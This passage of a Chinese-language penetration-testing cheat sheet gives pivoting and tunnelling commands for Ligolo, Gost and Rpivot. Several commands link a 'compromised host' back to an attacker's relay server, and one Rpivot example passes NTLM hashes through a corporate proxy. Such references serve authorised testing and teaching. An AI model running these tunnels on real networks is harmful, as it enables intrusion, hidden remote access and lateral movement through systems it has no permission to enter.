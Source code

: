 2. 使用 Ligolo

  ```powershell
  # 在您的攻击服务器上。
  ./bin/localrelay_linux_amd64

  # 在被攻破的主机上。
  ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
  ```

## Gost

> 英文维基百科：[https://docs.ginuerzh.xyz/gost/en/](https://docs.ginuerzh.xyz/gost/en/)

```powershell
git clone https://github.com/ginuerzh/gost
cd gost/cmd/gost
go build

# Socks5 代理
服务器端：gost -L=socks5://:1080
客户端：gost -L=:8080 -F=socks5://服务器IP:1080?notls=true

# 本地端口转发
gost -L=tcp://:2222/192.168.1.1:22 [-F=..]
```

## Rpivot

服务器（攻击者机器）

```python
python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0
```

客户端（被攻破的机器）

```python
python client.py --server-ip <ip> --server-port 9443
```

通过企业代理

```python
python client.py --server-ip [服务器IP] --server-port 9443 --ntlm-proxy-ip [代理IP] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e
```

传递哈希值

```python
python client.py --server-ip [服务器IP] --server-port 9443 --ntlm-proxy-ip [代理IP] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe \
--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE
```

## revsocks
